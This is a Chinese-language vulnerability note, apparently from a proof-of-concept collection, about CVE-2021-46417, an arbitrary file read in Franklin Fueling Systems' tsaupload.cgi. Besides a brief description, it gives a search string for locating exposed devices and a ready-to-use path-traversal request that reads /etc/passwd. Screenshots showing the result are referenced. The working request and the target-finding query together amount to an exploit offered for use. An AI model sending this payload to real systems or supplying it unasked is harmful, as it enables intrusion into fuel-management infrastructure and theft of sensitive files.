 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## 网络测绘

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面

![image-20220715105504364](images/202207151055481.png)

验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![image-20220715105538276](images/202207151055335.png)

